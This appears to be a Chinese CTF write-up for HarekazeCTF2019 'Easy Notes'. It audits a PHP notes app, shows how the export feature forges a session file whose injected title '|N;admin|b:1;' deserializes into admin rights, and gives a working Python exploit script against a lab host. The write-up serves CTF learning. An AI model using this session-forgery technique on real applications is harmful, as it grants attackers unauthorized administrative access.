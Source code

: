 # \[HarekazeCTF2019]Easy Notes

## \[HarekazeCTF2019]Easy Notes

## 考点

* PHP session反序列化
* PHP代码审计
* PHP session 伪造

## wp

给了源码，打开靶机，是一个笔记系统

![](../../.gitbook/assets/Harekaze2019\_notes\_1.png)

在登陆处进行了匹配，只允许输入 4 到 64 位规定字符，且不是前端验证

![](../../.gitbook/assets/Harekaze2019\_notes\_2.png)

登陆成功后，可以进行增删查和导出为 zip 或 tar 的功能，点击 `Get flag` 提示不是 admin

既然拿到源码就先看看全局配置 `config.php` ，就写了一行，定义临时文件目录



![](<../../.gitbook/assets/image (11) (1) (1) (1).png>)

还要看一下初始化文件`init.php`，定义`session`存储位置

![](<../../.gitbook/assets/image (22) (1) (1) (1) (1) (1) (1).png>)

进入 `page/flag.php` 看一下给出 flag 的条件，要满足 `is_admin()` 函数

![](../../.gitbook/assets/Harekaze2019\_notes\_3.png)

跟进 `is_admin()` 函数，没有发现什么可以利用的地方

![](../../.gitbook/assets/Harekaze2019\_notes\_4.png)

看到有个导出功能，它会将添加的 note 导出为 zip，这个文件存放的位置在 `TEMP_DIR` ，和 `session` 信息保存在同一个位置，那么是不是可以考虑伪造 session

![](<../../.gitbook/assets/image (5) (1) (1) (2).png>)

session 文件以 `sess_` 开头，且只含有 `a-z`，`A-Z`，`0-9`，`-`

看到 `$filename` 处可以满足所有的条件

![](../../.gitbook/assets/Harekaze2019\_notes\_5.png)

构造 `user` 为 `sess_` ，`type` 为 `.` ，经过处理之后，`$path` 就是 `TEMP_DIR/sess_0123456789abcdef` 这就伪造了一个 session 文件

然后向这个文件写入 note 的 `title`

![](../../.gitbook/assets/Harekaze2019\_notes\_6.png)

在最后，它会将构造的 `$filename` 返回，这样就知道了伪造的 session 文件，就可以拿到构造出的 admin 的 session 数据

![](../../.gitbook/assets/Harekaze2019\_notes\_7.png)

最后构造 `session` 触发反序列化使 `is_admin` 返回 `ture` 。

可以看到在导出时，会将 `titl`e 写入伪造的 `session` 文件中

那么就可以在 `title` 处构造序列化字符串，而 php 默认的 `session handler`是 `php`，其存储方式为 `键名+竖线+经过serialize函数序列处理的值`&#x20;

这里 `title` 就构造为 `|N;admin|b:1;` 这样就会满足了 `is_admin`的条件

梳理一下思路

第一步，以 sess\_ 登陆

第二步，添加标题为 `|N;admin|b:1; 的 note`

第三步，访问 export.php?type=. 伪造 session

第四步，获取伪造的 session 进行 get flag

exp

```python
import re
import requests
URL = 'http://192.168.233.136:9000/'

while True:
	# login as sess_
	sess = requests.Session()
	sess.post(URL + 'login.php', data={
		'user': 'sess_'
	})

	# make a crafted note
	sess.post(URL + 'add.php', data={
		'title': '|N;admin|b:1;',
		'body': 'hello'
	})

	# make a fake session
	r = sess.get(URL + 'export.php?type=.').headers['Content-Disposition']
	print(r)
	
	sessid = re.findall(r'sess_([0-9a-z-]+)', r)[0]
	print(sessid)
	
	# get the flag
	r = requests.get(URL + '?page=flag', cookies={
		'PHPSESSID': sessid
	}).content.decode('utf-8')
	flag = re.findall(r'flag\{.+\}', r)

	if len(flag) > 0:
		print(flag[0])
		break
```

## 小结

1. &#x20;php 默认的 `session handler`是 `php`，其存储方式为 `键名+竖线+经过serialize函数序列处理的值`&#x20;
2. session 文件以 `sess_` 开头，且只含有 `a-z`，`A-Z`，`0-9`，`-`
